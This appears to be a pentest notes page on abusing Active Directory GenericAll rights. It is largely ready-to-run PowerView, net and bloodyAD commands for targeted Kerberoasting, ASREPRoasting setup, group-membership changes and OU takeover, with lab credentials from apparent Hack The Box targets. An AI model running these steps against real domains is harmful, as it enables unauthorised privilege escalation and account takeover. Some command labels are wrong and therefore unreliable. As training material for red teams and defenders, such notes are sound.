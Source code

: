 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericAll

## Information

**Full control** over the target account.

<table><thead><tr><th width="290">Over a User</th><th width="192">Over a Group</th><th>Over an OU</th></tr></thead><tbody><tr><td><a href="forcechangepassword.md">Change the account's password</a></td><td><a href="genericall.md#add-user-to-the-group">Add user to the group</a></td><td><a href="genericall.md#over-an-ou"><code>FullControl</code> on its members</a></td></tr><tr><td><a href="genericall.md#targeted-kerberoasting">Targeted Kerberoasting</a></td><td></td><td></td></tr><tr><td><a href="genericall.md#targeted-asreproasting">Targeted ASREPRoasting</a></td><td></td><td></td></tr></tbody></table>

## Exploitation

### Over a User

<figure><img src="../../../../.gitbook/assets/genericall_group_over_user.png" alt=""><figcaption><p>Figure 1: The Information Technology group has GenericAll rights over the user adunn.</p></figcaption></figure>

#### Targeted Kerberoasting

When a group/user has `GenericAll` rights over another account, a fake SPN can be assigned to the target account.

{% code overflow="wrap" %}
```powershell
# credentialed object for the currently owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
 
# create a fake SPN for the target user
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
{% endcode %}

Once the SPN is assigned to the target account, we should be able to [Kerberoast](../attacks/kerberoasting.md) it.

#### Targeted ASREPRoasting

We can disable pre-authentication for the target account and then [ASREPRoast](../attacks/asreproasting.md) it.

```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```

{% tabs %}
{% tab title="PS" %}
```powershell
Set-DomainObject -Identity <USER> -XOR @{UserAccountControl=4194304}
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# set the preauth option to true
Get-ADUser <USER> | Set-ADAccountControl -doesnotrequirepreauth $true
# check that it worked
Get-ADUSer -Filter 'DoesNotRequirePreAuth -eq $true'
```
{% endtab %}
{% endtabs %}

An example of the above method can be found [here](../../../../boxes/boxes/insane/multimaster.md#genericwrite-rights).

#### Change user's password

Check [here](forcechangepassword.md).

### Over a Group

#### Add User to the Group

This can be done using [native commands](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754051\(v=ws.11\)), the [AD PS module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember?view=windowsserver2022-ps), or PowerView.

{% tabs %}
{% tab title="PowerView.py" %}
{% code overflow="wrap" %}
```bash
# connect to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
# add user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
# confirm group membership
PV > Get-DomainGroupMember -Identity servicemgmt
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Adding user to the group
Add-ADGroupMember -Identity '<GROUP>' -Members <USER>
# Adding user to the group (using another user's creds)
Add-DomainGroupMember -Identity 'Core Staff' -Members 'jdgodd' -Credential $Cred -Verbose 
# Confirming group membership
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
```
{% endcode %}
{% endtab %}

{% tab title="net" %}
```powershell
# add user to the group
net group '<GROUP>' <USER> /add /domain
# confirm group membership
net group <GROUP> /domain
```
{% endtab %}
{% endtabs %}

### Over an OU

If a group has `GenericAll` rights over an OU, then the group members can be assigned  `GenericAll` rights over the OU as well, which results in them having `FullControl` over the OU members. This gives the ability to [change any OU user's password](forcechangepassword.md).

{% tabs %}
{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
# give oorend GenericAll rights over the Service Users OU
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
# confirm FullControl over OU members (winrm_svc)
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
PV > Get-DomainObjectAcl -Identity winrm_svc -Where "SecurityIdentifier contains oorend"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall" %}
{% endtab %}
{% endtabs %}
